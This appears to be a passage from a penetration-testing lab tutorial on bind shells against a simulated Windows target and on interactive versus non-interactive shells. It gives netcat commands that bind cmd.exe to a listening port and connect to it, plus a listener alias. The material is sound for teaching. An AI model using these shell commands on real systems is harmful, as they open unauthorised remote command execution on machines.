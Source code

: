 Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

nc -lvnp <port> -e "cmd.exe"

On the attacking machine:

nc MACHINE_IP <port>

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

Here you can see that it's asking interactively that the user type either yes or no in order to continue the connection.
This is an interactive program, which requires an interactive shell in order to run.


Non-Interactive shells don't give you that luxury. 
In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. 
Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. 
Let's see what happens when we try to run SSH in a non-interactive shell:

Notice that the whoami command (which is non-interactive) executes perfectly, but the ssh command (which is interactive) gives us no output at all. 
As an interesting side note, the output of an interactive command does go somewhere, however, figuring out where is an exercise for you to attempt on your own. 
Suffice to say that interactive programs do not work in non-interactive shells.
Additionally, in various places throughout this task you will see a command in the screenshots called listener. 
This command is an alias unique to the attacking machine used for demonstrations, and is a shorthand way of typing sudo rlwrap nc -lvnp 443, which will be covered in upcoming tasks. 
It will not work on any other machine unless the alias has been configured locally.

## Netcat
As mentioned previously, Netcat is the most basic tool in a pentester's toolkit when it comes to any kind of networking. 
With it we can do a wide variety of interesting things, but let's focus for now on shells.
